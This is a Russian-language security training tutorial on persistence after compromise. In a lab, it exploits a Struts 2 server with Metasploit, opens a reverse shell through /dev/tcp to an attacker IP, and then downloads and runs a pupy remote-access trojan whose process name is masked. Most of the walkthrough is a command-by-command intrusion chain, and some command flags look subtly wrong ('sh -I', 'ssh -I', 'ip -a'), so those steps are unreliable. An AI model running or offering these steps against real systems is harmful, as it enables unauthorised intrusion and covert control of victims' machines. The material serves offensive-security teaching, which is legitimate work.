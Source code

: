 ### Основные понятия

**Закрепление доступа** — это набор методов, которые атакующие используют для сохранения доступа к системам после
перезагрузки, изменения учетных данных и других изменений, которые могли бы прервать их доступ.

**Backdoor (англ. Тайная дверь)** — Backdoor - это скрытый способ доступа к системе, приложению или устройству, который
обычно используется для обхода стандартных механизмов аутентификации и безопасности.

**MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge)**  это модель для описания тактик, техник и
процедур,
которые могут использоваться киберпреступниками для осуществления кибератак на организации и компании. Модель MITRE
ATT&CK описывает более 200 тактик и приемов, которые могут использоваться киберпреступниками на разных этапах
кибератаки - от получения доступа к сети до уничтожения данных и скрытия следов своей деятельности.

### Разбор базового примера

Закрепление доступа в скомпрометированных системах
Рассмотрим закрепление доступа в скомпрометированной системе с помощью средства удаленного администрирования pupy.

Ход действий

1. У нас есть уязвимый стенд со Struts 2 и подготовленный фреймворк pupy, находящийся в контейнере.

2. Проэксплуатируем уязвимость с помощью msf:

   $ msfconsole

   msf6> use exploit/multi/http/struts2_code_exec_showcase

   msf6> set RHOSTS evil.corp

   msf6> set TARGETURI /integration/saveGangster.action

   msf6> set PAYLOAD cmd/unix/generic

   msf6> set CMD id

   msf6> exploit

3. Обеспечим себе доступ с помощью создания обратного соединения:

Воспользуемся ресурсом revshells.com для генерирования команд, откроем listener
Откроем новое окно терминала и запустим утилиту netcat для принятия соединения с удаленной машины:

    $ nc -lvp 9004  

Запустим команду, инициирующую подключение к netcat из атакуемой машины:

    msf6> set CMD 'sh -I >& /dev/tcp/172.20.10.7/9004 0>&1'

Теперь, когда соединение установлено, можно начать подготовку к запуску клиентской части pupy для более удобного
управления скомпрометированной машиной.

4. Для работы с pupy необходимо добавить свой SSH-ключ в доверенные:

Учтите, что ~ это домашняя директория, т.е. нужно сгенерировать ключ. Чтобы сделать это воспользуйтесь утилитой
ssh-keygen и создайте стандартный незащищенный паролем ключ нажав enter несколько раз.

    $ cp ~/.ssh/id_rsa.pub /tmp/projects/keys/authorized_keys

Подключимся к интерфейсу сервера pupy:

    $ ssh -I ~/.ssh/id_rsa -p 2022 pupy@127.0.0.1

5. Для генерации payload воспользуемся командой gen:

Справка:

    > > gen -h

6. Создаем нагрузку под ОС Linux с архитектурой x64:

   > > gen -f client -O linux -A x64 connect

Бинарный файл появляется в директории /projects/default/output, затем необходимо передать его на скомпрометированный
узел с помощью веб-сервера, встроенного в python.

7. Переходим в директорию с файлом:

   $ cd /tmp/projects/default/output

8. Запускаем сервер:

   $ python3 -m http.server 3000

9. Определим наш ip-адрес:

   $ ip -a

10. На скомпрометированном узле выполняем команду:

> wget http://172.20.10.7:3000/pupyx64.Nla2MY.lin # IP-адрес и название файла нужно определить по выводу предыдущих
> команд

11. Дадим файлу права на исполнение:

> chmod +x pupy* # * заменяется на все файлы, начинающиеся с pupy

12. Выполним файл и подождем его подключения серверу RAT:

> ./pupy*

13. После успешного подключения соберем информацию о хосте:

> > info

14. Посмотрим, как процесс RAT выглядит в системе:

> ps aux

Имя процесса маскируется, что обеспечивает скрытность при управлении удаленным компьютером.

### Общие принципы

Доступ к скомпрометированной системе можно потерять по следующим причинам:

- Перебои в работе сети
- Нестабильный код нагрузки
- Вмешательство команды реагирования на инцидент или администратора
- Перезагрузка системы и пр.


**ВАЖНО**: потерять доступ к скомпрометированной системе может быть критически недопустимо, т.к. впоследствии доступа можно
уже не получить.

В том числе, поэтому важно отразить, что данный этап может быть исполнен сразу после успешного проведения первичных
атак.

#### Категории методов закрепления доступа

Процесс закрепления доступа насчитывает сотни приемов, предоставляющих доступ к системе различными каналами, мы
рассмотрим некоторые из них, но все примеры можно разбить на категории по степени “инвазивности”:

#### Менее инвазивные:

- Получение легитимного доступа к системе (получение информации об легитимных учетных данных, ключах доступа, правилах
доступа)

- Внесение изменений в легитимные механизмы доступа (добавление учетных записей, изменение паролей учетных записей,
внесение собственных ключей доступа, добавление устройств и пр.)

#### Более инвазивные:

- Внесение изменений в сервисы и внешние программы в ОС (получение доступа через веб-сервисы, файловые серверы, VPN сервер
и пр.)

- Внесение изменений в ядро ОС и предустановленные службы работающие на уровне ядра (внесение изменений: в автозагрузчик,
модули аутентикации, в системные процессы, в загрузчик ядра, в ядро ОС, в скрипты инициализации, в обработчики событий \
прерываний и пр.)
